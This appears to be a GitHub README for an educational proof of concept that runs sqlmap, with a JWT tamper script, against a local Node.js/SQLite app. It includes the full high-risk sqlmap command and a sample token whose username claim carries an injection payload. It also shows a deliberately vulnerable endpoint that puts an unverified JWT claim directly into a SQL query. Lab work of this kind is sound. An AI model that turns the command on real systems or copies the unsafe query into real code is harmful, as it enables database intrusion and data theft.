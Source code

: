 # sqlmap jwt tampering on node.js sqlite application
POC for educational purposes

Application is based on [https://github.com/jerrychong25/node-express-sqlite-jwt-typescript-typeorm](https://github.com/jerrychong25/node-express-sqlite-jwt-typescript-typeorm)

I initially wrote an tamper script but [this](https://www.craftypenguins.net/capture-the-flag-ctf-challenge-part-5/) article, written by Curtis Hildebrand, offered a much more mature script. 

## Getting Started

First we need to get our environment up and running
```
npm i
npm start
```
Should open a server at http://localhost:3000

## Burp
to make view the traffic of sqlmap we can open up Burp suite to proxy through localhost:8080


## sqlmap

make sure to install sqlmap
`brew install sqlmap`

## command explained
```Bash
sqlmap -u  http://localhost:3000/user/vulnEndpoint --flush-session --fresh-queries --headers "auth:*" --dbms sqlite3 --proxy "http://localhost:8080" --risk 3 --level=5 --tamper tamper.py --tables --data ""
```

Our vulnerable endpoint `http://localhost:3000/user/vulnEndpoint` would be bombarded with requests containing the auth header specified by `--headers "auth:*"` we are using a sqlite3 database. As mentioned we would proxy traffic through burp suite, risk and level set to high to perform all the tests fast. the `--tamper` flag specifies the tamper script that sqlmap would use. `--tables` - we would like a list of tables after the succesful exploitation. And lastly we would pass the `--data` flag to force a POST request.

## Code

Our vulnerable endpoint looks like this:
```Typescript
static postVulnerableEndpoint = async (req: Request, res: Response) => {
    //auth header example: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsInVzZXJuYW1lIjoic3FsaXRlX3ZlcnNpb24oKTsgLS0gIiwiaWF0IjoxNjUxMzA1NzU0LCJleHAiOjE2NTEzMDkzNTR9.KEfRab8qizSrWH59J1dJjgHrTL85C8VZBtBmuceivOc
    let token: string = req.headers["auth"].toString();
    let jwtPayload = <any>decode(token);
    if(!jwtPayload || token==""){
      console.log("jwtPayload",jwtPayload)
      res.send("error no username found in token / token not decoded currectly")
      return;
    }
    else{
      console.log(jwtPayload.username)

      let q = `SELECT ${jwtPayload.username} FROM user`
      const entityManager = getManager();
      let response = "";
      try{
        const someQuery = await entityManager.query(q)
        response = JSON.stringify(someQuery)
      }
      catch (error){
        res.send("error logging in as :"+ error);
        return;
      }
        res.send("VulnEndpoint logged in as :"+ response );
        return

      }
    };
```

We have a decode function that would take the JWT token from the "auth" header and simply provide us with the username parameter. The applicaiton would then craft a non-parameterized dynamic query using the username parameter and query the database.
the reponse or error would then be sent back to the user.


